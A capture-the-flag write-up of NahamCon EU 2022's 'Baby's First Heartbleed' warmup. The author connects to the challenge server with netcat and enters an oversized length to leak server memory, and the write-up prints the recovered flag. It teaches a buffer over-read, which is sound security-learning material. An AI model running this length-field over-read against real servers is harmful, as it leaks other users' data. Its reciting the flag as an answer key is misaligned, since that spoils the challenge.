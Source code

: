 # Baby's First Heartbleed

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

- Challenge difficulty: Easy

## Background

Author: @JohnHammond#6971  
  
Hey kids!! Wanna learn how to hack??!?! Start here to foster your curiosity!  
  
**Press the `Start` button on the top-right to begin this challenge.**

**Connect with:**  
`nc challenge.nahamcon.com 31305`

![](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216223317.png)

## Find The Flag

**Let's use `nc`(Netcat) to connect to the docker instance!**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Warmups/Baby's-First-Heartbleed]
└─# nc challenge.nahamcon.com 31305


===============================================================================
     _   _ _____    _    ____ _____ ____  _     _____ _____ ____  
    | | | | ____|  / \  |  _ \_   _| __ )| |   | ____| ____|  _ \ 
    | |_| |  _|   / _ \ | |_) || | |  _ \| |   |  _| |  _| | | | |
    |  _  | |___ / ___ \|  _ < | | | |_) | |___| |___| |___| |_| |
    |_| |_|_____/_/   \_\_| \_\|_| |____/|_____|_____|_____|____/ 
                                                                      
===============================================================================

THANK YOU FOR CONNECTING TO THE SERVER. . .

TO VERIFY IF THE SERVER IS STILL THERE, PLEASE SUPPLY A STRING.

STRING ['apple']: 
```

**Hmm... Let's type `apple`:**
```
STRING ['apple']: apple
LENGTH ['5']: 
```

**The length of `'5'` is 1, we can use `python3` to verify that:**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Warmups/Baby's-First-Heartbleed]
└─# python3
[...]
>>> len('5')
1
```

```
LENGTH ['5']: 1

... THE SERVER RETURNED:

a

TO VERIFY IF THE SERVER IS STILL THERE, PLEASE SUPPLY A STRING.

STRING ['apple']: 
```

Wait what??

Umm... What if I typed the length more than 5?

**Let's try again:**
```
STRING ['apple']: apple
LENGTH ['5']: 10

... THE SERVER RETURNED:

apple@appl
```

Hmm... Looks like the `STRING ['apple']` is useless, and **we can leak something interesting in `LENGTH ['x']`!**

**How about we type `1337` in the length?**
```
STRING ['apple']: 
LENGTH ['5']: 1337

... THE SERVER RETURNED:

apple@apple@00@00@00@00@00@00@00@00@00@00@00@00@00@00@apple@00@00@apple@00@apple@00@apple@00@apple@00@flag{bfca3d71260e581ba366dca054f5c8e5}@apple@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00
```

Oh!! We leaked the flag!

- **Flag: `flag{bfca3d71260e581ba366dca054f5c8e5}`**

# Conclusion

What we've learned:

1. Leaking The Flag via No Validation